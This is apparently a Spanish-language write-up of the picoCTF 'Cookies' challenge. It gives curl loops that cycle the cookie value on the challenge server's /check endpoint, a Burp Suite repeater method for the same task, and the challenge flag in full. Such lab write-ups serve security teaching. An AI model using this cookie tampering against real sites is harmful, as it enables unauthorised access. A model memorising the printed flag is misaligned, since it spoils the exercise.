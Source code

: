 # Level X
## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Datos de Acceso al Nivel
```
```
## Solucion
```Bash
abrir url
colocar un tipo de galleta
abrir cookie-editor y revisar el nombre de la cookie
abrir terminal
curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=1" | grep "I love"
for i in {0..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i" ; done | grep pico
copiar flag
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

Con proxy-burpsuit
Abrir burpsuit
crear proyecto temporal
usar configuracion por default
abrir pestania Proxy
cambiar configuracion de firefox
configuracion de red
agregar la ip y puerto del proxy del burpsuit
verificar el flujo de informacion
activar el burp
probar con alguna galleta valida
tomar la peticion de /check y enviar al repeter
modificar la cookie hasta encontrar en response la flag
copiar flag
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

Python

```
## Notas Adicionales
|**Comandos**|**Descripcion**|
|--------|-------------|
|||
|||
## Referencias

